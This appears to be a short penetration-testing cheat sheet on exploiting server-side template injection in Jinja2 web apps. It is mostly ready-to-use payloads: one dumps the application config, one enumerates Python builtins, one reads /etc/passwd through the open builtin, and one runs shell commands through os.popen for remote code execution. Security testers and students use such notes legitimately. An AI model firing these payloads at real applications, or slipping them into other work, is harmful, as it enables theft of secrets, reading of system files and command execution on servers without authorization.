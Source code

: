 # Exploiting SSTI - Jinja2

E**xploitation Techniques**

1. **Understanding Jinja2**:
   * Jinja2 is commonly used in Python web frameworks like Flask and Django.
   * You can leverage libraries already imported by the application, and potentially import additional libraries.
2. **Information Disclosure**:
   * **Dump Application Configuration**:
     *   Use the following payload to obtain internal configuration details:

         ```django
         {{ config.items() }}
         ```
     *   Access the application at:

         ```django
         http://<SERVER_IP>:<PORT>/
         ```
   * **Dump Built-in Functions**:
     *   To get a list of available built-in functions, use:

         ```django
         {{ self.__init__.__globals__.__builtins__ }}
         ```
     * This can help you understand what functions you can exploit.
3. **Local File Inclusion (LFI)**:
   * To read local files, use the `open` function from the built-ins:
     *   Payload to read `/etc/passwd`:

         {% code overflow="wrap" %}
         ```django
         {{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
         ```
         {% endcode %}
     *   Access the application at:

         ```
         CodeCopy Codehttp://<SERVER_IP>:<PORT>/
         ```
4. **Remote Code Execution (RCE)**:
   * To execute remote commands, you can use functions from the `os` library:
     *   First, import the `os` library and then execute a command:

         {% code overflow="wrap" %}
         ```django
         {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
         ```
         {% endcode %}
     * This payload will execute the `id` command and return the result.
